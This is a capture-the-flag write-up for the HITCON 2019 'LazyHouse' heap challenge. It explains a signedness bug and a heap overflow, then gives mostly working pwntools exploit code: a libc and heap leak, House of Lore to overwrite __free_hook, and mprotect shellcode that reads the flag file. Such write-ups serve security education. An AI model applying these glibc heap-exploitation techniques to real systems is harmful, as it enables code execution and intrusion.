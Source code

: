 # LazyHouse

## Description

My teammate, Lays, wants a house. Can you buy one for him?
flag: `/home/lazyhouse/flag`

`nc 3.115.121.123 5731`

## Analysis

The problem is just a simple **menu heap challenge**, with some **seccomp rules**. (like `execve` being blocked) In this challenge, we can allocate, free, print chunks, as well as **two chances of modification + 32 byte overflow, and 1 malloc chance**.

The allocation of chunk needs size and money, where size is bigger than `0x7f`, and money is bigger than `218*size`. The allocation uses calloc to get chunk, so it doesn't use tcache in allocation. Moreover, the number of entries in chunk list is 8, so we can get 8 different chunks in maximum.

Freeing chunks refunds money of `size*64`, and it deletes chunk from the bss list, so it's impossible to free same chunk multiple times.

We can print chunks with `write` function if the chunk is in the house list. Also, we have 2 chances to upgrade house, which allows us to modify content of chunk + 32 bytes of heap overflow. We can also allocate chunk with size `0x220`, with malloc once.

## Bug

There is a bug in buying house, which allows us to **buy houses with negative size**. In buying house, it compares unsigned size with signed `0x7f`, so we can give size with negative value. However, we need to ensure that `218*size` is lesser than our money, since it performs unsigned comparison.

Also, there is an intended bug in upgrading house, which allows us to do **32 byte heap overflow** twice.

## Exploit

### Money cheat

Because unsigned size value we give in buying house is compared with signed `0x7f`, we can give negative size to buy house, and sell it to increase our money. So we can make our money super large by buying house with proper size, and selling it.

```python
# money cheat
polluted_size = -(((219 << 64) / 218) % (1 << 64))
r.sendlineafter("choice: ", "1")
r.sendlineafter("Index:", "0")
r.sendlineafter("Size:", str(polluted_size))
r.interactive()
sell_house(0)
```

### Libc and tcache struct address leak by chunk overlapping 2

By using chunk overlapping 2 ([Link](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/overlapping_chunks_2.c)), we can leak libc and heap address. Two chunks are overlapped for later processes.

```python
# filling tcaches
for i in xrange(7):
  buy_house(0, 0x88, "Z")
  sell_house(0)
for i in xrange(7):
  buy_house(0, 0x98, "Z")
  sell_house(0)
for i in xrange(7):
  buy_house(0, 0x1f8, "Z")
  sell_house(0)

buy_house(0, 0x88, "A")
buy_house(1, 0x98, "B")
buy_house(2, 0x418, "C") # chunk to be overlapped
buy_house(3, 0x418, "D") # chunk to be overlapped
buy_house(4, 0x98, "E")
buy_house(5, 0x88, "F") # chunk to block coalescing

sell_house(4)
upgrade_house(0, "G"*0x88+p64(0xa0+0x420+0x420+1))
sell_house(1)

# leak libc address
buy_house(1, 0x98, "H") # size is 0x98 to write arena address in 2

libc_leak = u64(show_house(2)[0:8])
log.success("libc leak addr : "+hex(libc_leak))

libc_base = libc_leak - 0x7fb657832ca0 + 0x7fb65764e000
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']

# cleanup
sell_house(5)
sell_house(1)
sell_house(0)

# leak heap address
payload = "K"*(0x90+0xa0-8)
payload += p64(0x31) # fake size 0x31 (2nd entry of tcache entries)
payload += "L"*0x418
payload += p64(0x21) # fake size 0x21 (1st entry of tcache entries)
payload += "L"*0x18
payload += p64(0x401)
buy_house(4, 0x90+0xa0+0x420+0x420-8, payload)

# free two chunks to put them in tcache struct
sell_house(2) # to 0x31 entry
sell_house(3) # to 0x21 entry

# leak tcache struct addr (actually tcache key in 2.29)
heap_leak = u64(show_house(4)[0x138:0x140])
log.success("heap leak addr : "+hex(heap_leak))
chunk_base = heap_leak-0x10
```

### House of Lore to overwrite free hook

In tcache struct, tcache count list and tcache entries are adjacent. Because of that, we can create fake chunk structure in tcache struct, by putting 1st and 2nd tcache entry by freeing chunks size `0x20` and `0x30`, and fake size (in this case, `0x301`)by freeing chunks size `0x3a0` and `0x3b0`. After house of lore, tcache entries will be overwritten, so that we can do arbitrary write by buying super house.

```python
# house of lore
buy_house(4, 0x90+0xa0+0x420-8+0x10, "M")
buy_house(5, 0x1f8, "N")
buy_house(6, 0x1f8, "O")

sell_house(5)
buy_house(5, 0x4b8, "P")

payload = "Q"*(0x90+0xa0-8+0x10)
payload += p64(0x421) # restore chunk size
payload += p64(chunk_base+0x40) # fake chunk 2
payload += "R"*0x410
payload += p64(0x201) # for checking (looks like size)
payload += p64(libc_leak-96+592) # fake chunk 1
payload += p64(chunk_base+0x40) # fake chunk 1
upgrade_house(4, payload)

buy_house(1, 0x1f8, "S")

# pre process for super size house
buy_house(0, 0x217, "PLUS")
sell_house(0)

# fake size in tcache struct (0x301)
buy_house(0, 0x398, "Z")
sell_house(0)
for i in xrange(3):
  buy_house(0, 0x3a8, "Z")
  sell_house(0)

# overwrite tcache entries
target = free_hook
log.info ("target: " + hex(target))
payload = ""
payload += "/bin/sh\0"+p64(target)*17*2 
buy_house(0, 0x1f8, payload)
```

### Call mprotect and run shellcode

Overwrite `__free_hook` to call mprotect, then run shellcode.

```python
xchg_gadget = libc_base + 0x0000000000158023
call_mprotect = libc_base + 0x0000000000117590
how_gadget = libc_base + 0x00000000001080fc
push_rdi_ret = libc_base + 0x000000000004c745
log.info ("b * {}".format (hex(how_gadget)))
ss = p64(how_gadget)
buy_super_house(ss)

pay = p64(call_mprotect) + p64(heap_leak + 0x4ff0) 
context.arch = 'amd64'
context.os = 'linux'

sc = asm(shellcraft.amd64.open ("/home/lazyhouse/flag", 0))
sc += asm(shellcraft.amd64.read ('rax', 'rsp', 100))
sc += asm(shellcraft.amd64.write (1, 'rsp', 100))
pay2 = p64(heap_leak+0x4220) + "\x90" * 0x20 + sc
print len (pay2)
buy_house (2, 0x850, "ASDF")
buy_house (7, 0x200, pay)
buy_house (3, 0x200, pay2)

r.sendafter("choice: ", "3".ljust(0x20, "b"))
r.sendafter("Index:", "7".ljust(32,"a"))
#sell_house(0)
sell_house (3)
r.interactive()
```

## Full code

[Link](https://github.com/candymate/pwn/blob/master/HITCON%202019%20Quals/solver.py)




